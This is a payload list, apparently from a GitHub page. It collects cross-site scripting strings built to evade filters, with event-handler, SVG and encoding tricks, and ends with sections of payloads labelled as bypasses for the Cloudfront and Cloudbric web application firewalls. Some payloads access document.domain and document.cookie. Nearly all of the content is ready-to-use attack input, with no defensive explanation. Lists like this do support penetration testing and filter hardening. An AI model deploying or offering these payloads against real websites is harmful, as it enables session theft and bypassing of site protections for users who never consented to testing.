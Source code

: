 ```
"Onx=() onMouSeoVer=prompt(1)>"Onx=[] onMouSeoVer=prompt(1)>"/*/Onx=""//onfocus=prompt(1)>"//Onx=""/*/%01onfocus=prompt(1)>"%01onClick=prompt(1)>"%2501onclick=prompt(1)>"onClick="(prompt)(1)"Onclick="(prompt(1))"OnCliCk="(prompt`1`)"Onclick="([1].map(confirm))

[1].map(confirm)'ale'+'rt'()a&Tab;l&Tab;e&Tab;r&Tab;t(1)prompt&lpar;1&rpar;prompt&#40;1&#41;prompt%26%2300000000000000000040;1%26%2300000000000000000041;(prompt())(prompt``)

<svg onload=alert%26%230000000040"1")>

<svg onload=prompt%26%230000000040document.domain)>

<svg onload=prompt%26%23x000000028;document.domain)>

<svg/onrandom=random onload=confirm(1)>

<video onnull=null onmouseover=confirm(1)>

<a id=x tabindex=1 onbeforedeactivate=print(`XSS`)></a><input autofocus>

<img ignored=() src=x onerror=prompt(1)>

<svg onx=() onload=(confirm)(1)>

<--`<img/src=` onerror=confirm``> --!>

<img src=x onerror="a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}};self[Object.keys(self)[a()]](document.domain)">

<j id=x style="-webkit-user-modify:read-write" onfocus={window.onerror=eval}throw/0/+name>H</j>#x

'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>

'"><img/src/onerror=.1|alert``>

:javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();
```

2. Cloudfront
```
">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(`cloudfrontbypass`)//'>

<--`<img%2fsrc%3d` onerror%3dalert(document.domain)> --!>

"><--<img+src= "><svg/onload+alert(document.domain)>> --!>
```

3. Cloudbric
```
<a69/onclick=[1].findIndex(alert)>pew
```
